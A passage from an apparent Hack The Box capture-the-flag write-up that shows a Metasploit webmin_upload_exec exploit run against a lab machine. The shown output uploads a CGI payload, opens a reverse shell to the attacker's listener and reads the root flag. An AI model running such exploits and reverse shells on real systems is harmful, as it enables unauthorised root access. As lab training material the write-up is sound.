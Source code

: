 ```text
msf5 exploit(unix/webapp/webmin_upload_exec) > set username root
username => root
msf5 exploit(unix/webapp/webmin_upload_exec) > set rhosts 10.10.10.120
rhosts => 10.10.10.120
```

Okay, we've set the required options and we're ready to send the exploit:

```text
msf5 exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 10.10.x.x:4444 
[+] Session cookie: dff81043d5e7e399da11f92929578f18
[*] Target URL => https://10.10.10.120:10000
[*] Searching for directory to upload...
[+] File vyiywme.cgi was successfully uploaded.
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.x.x:4444 -> 10.10.10.120:59360) at 2019-05-26 08:58:08 -0500
[+] Deleted vyiywme.cgi
```

Looks like the exploit worked! We have a command shell opened. Let's ensure we're root and get our flag to complete the exercise:

```text
whoami
root
cat /root/root.txt
4eca7e09{truncated} <-------- Flag #2, we have root and complete control of the system
```

[1]: https://www.hackthebox.eu
[2]: https://www.exploit-db.com
[3]: https://github.com/Unode/firefox_decrypt